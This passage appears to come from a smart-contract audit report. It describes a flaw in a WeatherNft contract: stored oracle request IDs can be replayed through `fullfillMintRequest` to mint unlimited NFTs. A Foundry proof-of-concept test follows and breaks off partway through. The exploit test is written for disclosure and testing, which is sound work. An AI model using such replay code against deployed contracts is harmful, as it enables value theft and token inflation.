 ## Risk

**Likelihood**: Medium

* Public transaction data makes request IDs visible and accessible to anyone monitoring the blockchain

* Successful oracle responses remain stored indefinitely in contract storage

* Anyone with a valid request ID can exploit this vulnerability

**Impact**: High

* Unintended NFT inflation - unlimited NFTs can be minted from a single oracle request

* Storage bloat - request data is never cleaned up, leading to perpetually growing contract storage

* Value dilution - NFT uniqueness and scarcity are compromised

## Proof of Concept

The test bellow proves that a handful of people, can call the `fullfillMintRequest` function and mint themselves unlimited NFT's.

Add the following to the testing suite:

```Solidity
function test_multiple_mints_with_same_requestId() public {
    string memory pincode = "125001";
    string memory isoCode = "IN";
    bool registerKeeper = false; // Disable keeper to simplify test
    uint256 heartbeat = 12 hours;
    uint256 initLinkDeposit = 0; // No LINK needed since no keeper
    uint256 initialTokenCount = weatherNft.s_tokenCounter();
    console.log("Initial token count: ", initialTokenCount);
    console.log("Initial price: ", weatherNft.s_currentMintPrice());
    
    // Make an initial legitimate request from user
    vm.startPrank(user);
    vm.recordLogs();
    weatherNft.requestMintWeatherNFT{
        value: weatherNft.s_currentMintPrice()
    }(pincode, isoCode, registerKeeper, heartbeat, initLinkDeposit);
    vm.stopPrank();

    // Get request ID from logs
    Vm.Log[] memory logs = vm.getRecordedLogs();
    bytes32 reqId;
    for (uint256 i; i < logs.length; i++) {
        if (
            logs[i].topics[0] ==
            keccak256(
                "WeatherNFTMintRequestSent(address,string,string,bytes32)"
            )
        ) {
            (, , , reqId) = abi.decode(
                logs[i].data,
                (address, string, string, bytes32)
            );
            break;
        }
    }
    assert(reqId != bytes32(0));

    // Oracle fulfills with a successful weather response
    vm.prank(functionsRouter);
    bytes memory weatherResponse = abi.encode(
```
